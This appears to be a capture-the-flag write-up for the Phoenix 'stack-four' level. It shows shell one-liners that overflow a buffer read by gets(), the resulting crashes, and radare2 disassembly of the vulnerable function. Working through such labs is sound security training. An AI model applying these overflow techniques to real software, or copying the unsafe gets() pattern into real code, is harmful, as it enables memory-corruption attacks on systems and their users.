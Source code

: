 ##### Run the code
```
$ python -c 'print "A"*(74)' | ./stack-four
and will be returning to 0x105bc

$ python -c 'print "A"*(75)' | ./stack-four
and will be returning to 0x105bc
Illegal instruction

$ python -c 'print "A"*(78)' | ./stack-four
and will be returning to 0x105bc
Segmentation fault
```  
##### Symbols
```
[0x00013550]> is~FUNC
077 0x00000560 0x00010560 GLOBAL   FUNC   60 start_level
090 0x00000544 0x00010544 GLOBAL   FUNC   28 complete_level
001 0x000003bc 0x000103bc GLOBAL   FUNC   16 imp.printf
003 0x000003c8 0x000103c8 GLOBAL   FUNC   16 imp.gets
004 0x000003d4 0x000103d4 GLOBAL   FUNC   16 imp.puts
014 0x000003ec 0x000103ec GLOBAL   FUNC   16 imp.exit
015 0x000003f8 0x000103f8 GLOBAL   FUNC   16 imp.__libc_start_main
```
##### Seek and disassemble
```
[0x00013550]> pdf @ 0x00010560
|           ;-- $a:
/ (fcn) sym.start_level 56
|   sym.start_level ();
|           ; var int local_10h @ fp-0x10
|           ; CALL XREF from sym.main (0x105b8)
|           0x00010560      10482de9       push {r4, fp, lr}
|           0x00010564      08b08de2       add fp, sp, 8
|           0x00010568      4cd04de2       sub sp, sp, 0x4c            ; 'L'
|           0x0001056c      0e40a0e1       mov r4, lr
|           0x00010570      50304be2       sub r3, fp, 0x50
|           0x00010574      0300a0e1       mov r0, r3                  ; char *s
|           0x00010578      92ffffeb       bl sym.imp.gets             ; char *gets(char *s)
|           0x0001057c      10400be5       str r4, [local_10h]         ; 0x10 ; 16
|           0x00010580      10101be5       ldr r1, [local_10h]         ; 0x10 ; 16
|           0x00010584      0c009fe5       ldr r0, loc._d_12           ; [0x10598:4]=0x10620 str.and_will_be_returning_to__p ; " \x06\x01" ; const char *format
|           0x00010588      8bffffeb       bl sym.imp.printf           ; int printf(const char *format)
|           0x0001058c      0000a0e1       mov r0, r0
|           0x00010590      08d04be2       sub sp, fp, 8
\           0x00010594      1088bde8       pop {r4, fp, pc}

// complete_level
[0x00010544]> pdf
|           ;-- $a:
/ (fcn) sym.complete_level 24
|   sym.complete_level ();
|           0x00010544      00482de9       push {fp, lr}
|           0x00010548      04b08de2       add fp, sp, 4
|           0x0001054c      08009fe5       ldr r0, loc._d_11           ; [0x1055c:4]=0x105dc


[0x000105dc]> pj
Congratulations, you've finished phoenix/stack-four :-) Well done!
```
##### Debugger
```
```